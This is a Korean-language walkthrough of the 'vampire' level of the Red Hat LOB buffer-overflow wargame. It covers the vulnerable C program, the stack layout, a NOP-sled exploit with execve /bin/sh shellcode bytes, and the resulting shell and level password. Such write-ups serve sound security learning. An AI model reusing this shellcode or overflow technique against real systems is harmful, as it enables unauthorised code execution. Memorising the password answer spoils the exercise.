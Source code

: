 ============================================================================================================
[redhat-lob] (9) vampire
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d;

        a [shape=box, label="dummy * 44 + (argv[1] address+4*i) + dummy * 100000 + shellcode"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="shellcode address"];
    }


|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
            printf("but it's not forever\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] value의 46번째 문자가 "\\xff"가 아니어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./vampire2 `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



|

exploit
============================================================================================================

argv[1]의 주소값 변경
------------------------------------------------------------------------------------------------------------

argv[1]의 주소가 "\\xbf\\xff"로 시작하기 때문에 argv[1]에 nop를 100000만큼 삽입하여 주소값을 "\\xbf\\xfe"로 시작하도록 한다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"+"\x90"*100000'`
    buffer : 0xbffe7460
    argv[1]: 0xbffe74d8

    Segmentation fault

|

argv[1] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|


오버플로우시 RET를 shellcode를 삽입한 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

.. code-block:: console

    $ ./vampire `python -c 'print "\x90"*44 + "\xd8\x74\xfe\xbf" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    vampire
    bash$ my-pass
    euid = 509
    music world


